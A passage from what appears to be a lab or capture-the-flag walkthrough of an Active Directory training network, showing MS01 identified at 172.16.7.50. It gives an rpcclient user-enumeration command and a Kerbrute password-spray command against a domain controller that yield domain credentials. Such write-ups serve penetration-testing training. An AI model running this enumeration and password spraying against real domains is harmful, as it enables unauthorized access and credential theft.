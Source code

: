 After enumeration, we identify that `172.16.7.50` is MS01. We confirmed access, so we can retrieve the required flag from MS01.

![](screenshots/6.png)


### Domain User Enumeration & Password Spraying

The next step is to identify weak domain credentials. We proceed with a **password spraying** attack using likely passwords from the module.

To prepare, we enumerate usernames using `rpcclient`:

```bash
rpcclient -U INLANEFREIGHT/<domain_user> 172.16.7.3 -c "enumdomusers" | awk -F'[][]' '{print $2}' > users.txt
```

With the list in place, we launch **Kerbrute**:

```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users.txt <probable_password>
```

This yields valid credentials for a new domain user.

![](screenshots/7.png)
